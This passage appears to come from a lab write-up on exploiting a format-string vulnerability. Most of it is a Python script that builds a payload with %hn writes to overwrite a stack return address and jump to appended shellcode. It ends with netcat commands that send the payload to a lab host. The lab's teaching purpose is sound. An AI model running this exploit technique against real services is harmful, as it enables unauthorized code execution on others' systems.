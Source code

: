 ```python
).encode('latin-1')

# Choose the shellcode version based on your target
shellcode = shellcode_64

############################################################
#    Construct the format string here                      #
############################################################

# return address    = 0x00007fffffffe0d8
# buffer address    = 0x00007fffffffe190
# shellcode address = 0x00007fffffffe190 + 0x48 = 0x00007fffffffe1d8

r1 = 0x00007fffffffe0d8         # <-- 0xe1d8
r2 = 0x00007fffffffe0d8 + 2     # <-- 0xffff
r3 = 0x00007fffffffe0d8 + 4     # <-- 0x7fff
r4 = 0x00007fffffffe0d8 + 6     # <-- 0x0000

# Create format string
# I pad zeros to keep the lenght at 16-bytes
content  = ("%.0032767x%40$hn").encode('latin-1')    # <-- 0x7fff
content += ("%.0025049x%41$hn").encode('latin-1')    # <-- 0xe1d8
content += ("%.0007719x%42$hn").encode('latin-1')    # <-- 0xffff

# Append addresses
content += (r3).to_bytes(8,byteorder='little')
content += (r1).to_bytes(8,byteorder='little')
content += (r2).to_bytes(8,byteorder='little')

# determine the size of content before adding the shellcode
#print(f"size of content before shellcode = {len(content)}")    # --> 72 = 0x48

# shellcode
content += shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

Next is to set up a listener...

```bash
nc -nvl 9090
```

then run the attack.
```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.6 9090
```
